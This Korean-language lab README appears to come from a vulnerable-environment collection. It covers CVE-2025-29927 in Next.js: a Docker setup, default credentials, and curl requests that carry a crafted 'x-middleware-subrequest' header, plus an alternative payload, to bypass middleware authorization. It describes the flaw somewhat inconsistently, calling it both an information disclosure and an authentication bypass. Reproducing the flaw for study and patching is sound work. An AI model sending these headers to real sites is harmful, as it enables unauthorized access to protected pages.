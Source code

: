 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

## Next.js란?

Next.js는 React를 기반으로 한 웹 애플리케이션 프레임워크입니다.  
기본적인 React 기능에 더해 서버사이드 렌더링(SSR), 정적 사이트 생성(SSG), 파일 기반 라우팅, API 라우트 등을 지원하여, 프론트엔드와 백엔드 기능을 함께 개발할 수 있도록 도와줍니다.
Next.js를 사용하면 SEO 최적화가 쉽고, 성능 좋은 웹사이트를 빠르게 구축할 수 있습니다.


## CVE-2025-29927 취약점 설명

CVE-2025-29927은 Next.js의 middleware 처리 과정의 취약점을 악용하여, 서버 내부 렌더링 데이터를 노출시킬 수 있는 정보 유출(Information Disclosure) 취약점입니다.

Next.js는 클라이언트 요청을 처리할 때 middleware를 거칩니다.  
이때, 특별히 조작된 헤더(`x-middleware-subrequest`)를 다섯 번 이상 중첩하여 보내면, 서버가 이를 제대로 방어하지 못하고 서버 내부 렌더링 데이터(`__next_f`)를 외부 클라이언트에게 노출시키는 문제가 발생합니다.

### 요약

- 취약 원인: 중첩된 미들웨어 요청 처리 미흡
- 공격 방법: `x-middleware-subrequest` 헤더를 중첩하여 요청
- 공격 결과: 서버 내부 렌더링 상태(`__next_f`) 및 민감한 페이지 구조 정보 노출
- 위험성: 공격자가 서버 렌더링 내부 데이터를 수집하여 추가적인 공격(디렉토리 구조 파악, 내부 경로 분석 등)에 활용 가능

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```
![](./p1.png)
애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

정상적으로는 인증되지 않은 사용자가 대시보드에 직접 접근할 경우 로그인 페이지로 리디렉션됩니다.

```bash
curl -i http://your-ip:3000
```

![](./p2.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```


![](./p3.png)

요청 결과, 응답 본문에 서버 렌더링용 내부 JSON 데이터가 포함된 것을 확인할 수 있습니다.
이는 인증 없이 민감한 내부 정보를 획득할 수 있다는 것을 의미합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.
